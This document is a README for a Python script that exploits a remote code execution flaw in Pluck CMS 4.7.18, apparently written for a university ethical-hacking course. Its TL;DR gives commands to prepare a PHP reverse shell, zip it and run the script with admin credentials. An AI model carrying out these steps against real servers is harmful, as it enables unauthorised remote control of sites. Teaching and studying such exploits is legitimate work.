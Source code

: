 #+title: Readme

#+TITLE: Pluck CMS Exploitation Script
#+AUTHOR: acnimda

* TL:DR
1. Create a revshell:
   #+begin_src
cp /usr/share/webshells/php/php-reverse-shell.php ~/path/to/your/likings/evil.php

   #+end_src
2. zip the revshell:
   #+begin_src
zip exploit.zip evil.php
   #+end_src
3. run =exp.py=.
  #+BEGIN_SRC bash
  python3 poc.py --url=example.nl -u admin -p admin123
  #+END_SRC

* Introduction
  This Python script is developed for educational purposes as part of an university lecture series on cybersecurity and ethical hacking. It provides a practical demonstration of how to automate the process of exploiting a known remote code execution vulnerability in =Pluck CMS version 4.7.18=.

* Dependencies
  This script requires =Python3= and the following additional modules:
  - requests: To handle HTTP requests
  - requests_toolbelt: For multipart file upload support

  You can install the required modules using pip:

  #+BEGIN_SRC shell
  pip install requests requests_toolbelt
  #+END_SRC

* Usage
  Before running the script, ensure that you have permission to test the target application.

  The script takes the following command-line arguments:
  - -u, --username : The username for the login attempt
  - -p, --password : The corresponding password
  - --url : The base URL of the target Pluck CMS instance, e.g., "hack.tb"

  To run the script, use the following command:

  #+BEGIN_SRC shell
  python3 poc.py --url=example.com -u admin -p admin123
  #+END_SRC

  Make sure to replace =example.com=, =admin=, and =admin123= with the appropriate URL and credentials for your test scenario.

* Disclaimer
  The code provided in this script is for educational purposes only. As part of our academic integrity policy and ethical conduct, it is imperative that students and practitioners use this script in a controlled, legal, and ethical manner.

  You must obtain explicit consent from the owners of any systems before running this script against them. Unauthorized use of this script may violate laws, and the author and the university disclaim any liability for misuse of this software. Instead, the aim is to educate students on the mechanisms of cybersecurity threats, defenses, and responsible disclosure practices.


* Acknowledgments
  Credit goes to all contributors and maintainers of the Pluck CMS project. The exploitation technique is based on existing research and has been adapted here for an educational setting. Students are encouraged to delve deeper into the code, understand the underlying security concepts, and contribute positively to the field of cybersecurity.

Please replace the example email and any other placeholder content with actual information relevant to your situation.
